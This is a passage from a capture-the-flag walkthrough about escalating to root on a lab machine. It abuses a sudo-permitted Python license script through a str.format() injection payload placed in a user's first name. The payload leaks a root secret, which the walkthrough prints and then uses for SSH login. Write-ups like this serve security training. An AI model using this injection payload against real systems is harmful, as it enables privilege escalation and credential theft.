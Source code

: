 #### Searching for Vulnerabilities

- the `/etc/ssh/sshd_config` shows that `root` is allowed to log in via SSH:
- `sudo -l` shows that `cooper` is allowed to execute the `license` binary as `root`:
    
    ```
    User cooper may run the following commands on format:
        (root) /usr/bin/license
    ```
- `binwalk license` shows that it is a Python script that can be exploited via the `str.format()` method:
    
    ```python
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
    ```
    - https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#python-format-string
- The Python source code also contains a suspicious variable `secret`:
    
    ```python
    secret = [line.strip() for line in open("/root/license/secret")][0]
    ```

#### Exploitation

1. To exploit the vulnerability we found, let's create another user account on the webpage:
    - username: `bar`
    - first name: `{license.init.globals[secret]}`
2. The output of the command `sudo license -p bar` contains the value of the variable `secret`:
    
    ```
    Plaintext license key:
    ------------------------------------------------------
    microblogbaro-4x'2xqhD"0\G{M+`=~/1:n?JcF3aG]sW,CC,plunCR4ckaBL3Pa$$w0rdbar

    Encrypted license key (distribute to customer):
    ------------------------------------------------------
    gAAAAABlCK4w4Q1DBHF7ZnQGMo_d3_j09GsmbKuS08hZmemMw8O-bTUmAd7vIEirYDRw5fwvCjf5ReNr5_aNwTWY2WK1oYB-S1VOEQYptn99pgb5m8kk-jlHxwVFcHpbONUyzD9TrEDHBMHz_BQPu1XpgPwkpSIeCc1CxYg7bD7nrbHFuMX2hbY=
    ```
    - if you look closely, you can see, that the output for the license key contains the string `unCR4ckaBL3Pa$$w0rd`
3. With the password `unCR4ckaBL3Pa$$w0rd` we can log in via SSH as `root`! 🏁
